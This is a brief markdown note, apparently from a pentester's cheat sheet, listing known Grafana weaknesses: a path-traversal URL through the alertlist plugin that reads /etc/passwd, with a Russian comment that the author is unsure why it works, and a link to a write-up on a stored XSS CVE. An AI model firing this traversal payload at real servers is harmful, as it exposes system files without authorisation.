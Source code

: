 # Grafana

## Known vulnerabilities

### LFI / Path Traversal

```
https://grafana.example.org/plugins/alertlist/../../../../../../../../../etc/passwd

Как определяется путь не знаю, но периодически такие репорты появляются
```

## CVEs

CVE-2020-11110 Stored XSS Auth not required: [https://ctf-writeup.revers3c.com/challenges/web/CVE-2020-11110/index.html](https://ctf-writeup.revers3c.com/challenges/web/CVE-2020-11110/index.html)

